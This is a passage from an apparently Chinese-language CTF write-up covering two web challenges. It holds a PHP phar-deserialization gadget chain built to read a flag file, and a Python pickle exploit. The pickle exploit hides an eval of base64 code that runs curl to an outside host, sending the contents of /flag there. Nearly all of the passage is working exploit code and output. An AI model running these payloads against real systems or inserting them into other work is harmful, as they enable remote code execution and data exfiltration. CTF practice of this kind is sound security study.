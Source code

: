```php
    public $container2;
}


class Cloud
{
    public $value;
    public $docker;
}


$file = new File();
$docker = new Docker();
$cloud = new Cloud();
$container1 = new Docker();

$file->fakefile = $docker;
$docker->str = $cloud;
$cloud->docker = serialize($container1);
$cloud->value = '/var/www/html/flag.php';
$phar = new Phar('yoooo.phar');
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($file);
$phar->addFromString("exp.txt", "test");
$phar->stopBuffering();
```

完成后计算文件名的 MD5，并通过 file.php 即可拿到 Flag。

```
<?php __HALT_COMPILER(); ?>
PD9waHANCiMkZmxhZz0iZmxhZ3syY2ZkN2VhYjQ1YjhiYjIxZTE2YzY1YjU1ZjYzZWM4ZX0iOw==
```

### web6-pickle

cookie里是一个经Base64编码的Pickle序列化(Protocol=0)内容，直接返回一个os.system('command')似乎没有作用，考虑到可能过滤了某些东西，尝试编码绕过，附脚本：

```python
import pickle
import base64
import os


class Exploit(object):

    def __reduce__(self):
        return (eval, (('eval(__import__("base64").b64decode("X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2N1cmwgaHR0cDovL2Jsb2cuZXZhbGV4cC5tbC9yY2U/YGNhdCAvZmxhZyB8IGJhc2U2NGAnKQ=="))'),))


# s = b"__import__('os').system('curl http://blog.evalexp.ml/rce?`cat /flag | base64`')"
# print(base64.b64encode(s))


data = pickle.dumps(Exploit(), protocol=0)
print(base64.b64encode(data))
# print(pickle.loads(base64.b64decode(
#     'Y19fYnVpbHRpbl9fCmV2YWwKcDAKKFZldmFsKF9faW1wb3J0X18oImJhc2U2NCIpLmI2NGRlY29kZSgiWDE5cGJYQnZjblJmWHlnbmIzTW5LUzV6ZVhOMFpXMG9KMk4xY213Z2FIUjBjRG92TDJKc2IyY3VaWFpoYkdWNGNDNXRiQzl5WTJVL1lHTmhkQ0F2Wm14aFp5QjhJR0poYzJVMk5HQW5LUT09IikpCnAxCnRwMgpScDMKLg==')))

```
